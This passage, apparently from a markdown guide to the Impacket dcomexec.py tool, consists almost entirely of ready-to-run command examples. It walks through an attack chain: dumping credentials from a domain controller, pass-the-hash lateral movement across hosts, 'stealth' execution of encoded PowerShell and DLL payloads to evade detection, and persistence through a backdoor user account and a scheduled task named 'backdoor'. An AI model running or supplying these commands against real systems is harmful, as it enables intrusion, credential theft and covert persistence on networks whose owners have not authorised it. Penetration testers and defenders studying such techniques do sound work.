 ### Shell Type and Output Options
```bash
# Use PowerShell instead of cmd
python3 dcomexec.py -shell-type powershell domain.com/admin:password@192.168.1.100

# Silent execution without output retrieval
python3 dcomexec.py -nooutput domain.com/admin:password@192.168.1.100 "net user backdoor Password123! /add"

# Silent command execution (direct execution without cmd.exe wrapper)
python3 dcomexec.py -silentcommand domain.com/admin:password@192.168.1.100 "calc.exe"

# Custom output share
python3 dcomexec.py -share C$ domain.com/admin:password@192.168.1.100
```

### Advanced Options
```bash
# Custom character encoding
python3 dcomexec.py -codec cp1252 domain.com/admin:password@192.168.1.100

# Debug mode with timestamps
python3 dcomexec.py -debug -ts domain.com/admin:password@192.168.1.100

# Specify DCOM version
python3 dcomexec.py -com-version 5.7 domain.com/admin:password@192.168.1.100

# Using authentication file
python3 dcomexec.py -A auth.txt target.domain.com

# Using keytab file
python3 dcomexec.py -keytab admin.keytab -k domain.com/admin@target.domain.com
```

## Attack Chain Integration

### Lateral Movement via DCOM
```bash
# Step 1: Obtain credentials through various methods
python3 secretsdump.py domain.com/user:password@dc.domain.com

# Step 2: Use extracted credentials for DCOM-based lateral movement
python3 dcomexec.py -hashes :extracted_hash domain.com/admin@target1.domain.com

# Step 3: Chain execution across multiple systems
python3 dcomexec.py -object MMC20 -hashes :admin_hash domain.com/admin@target2.domain.com
python3 dcomexec.py -object ShellBrowserWindow -hashes :admin_hash domain.com/admin@target3.domain.com
```

### Stealth Command Execution
```bash
# Step 1: Connect via DCOM with no output for stealth
python3 dcomexec.py -nooutput domain.com/admin:password@192.168.1.100 "powershell -enc <base64_payload>"

# Step 2: Use silent commands to avoid cmd.exe detection
python3 dcomexec.py -silentcommand domain.com/admin:password@192.168.1.100 "rundll32.exe payload.dll,EntryPoint"

# Step 3: Deploy persistence mechanism
python3 dcomexec.py -object MMC20 domain.com/admin:password@192.168.1.100 "schtasks /create /tn backdoor /tr 'powershell.exe -enc <payload>' /sc onlogon"
```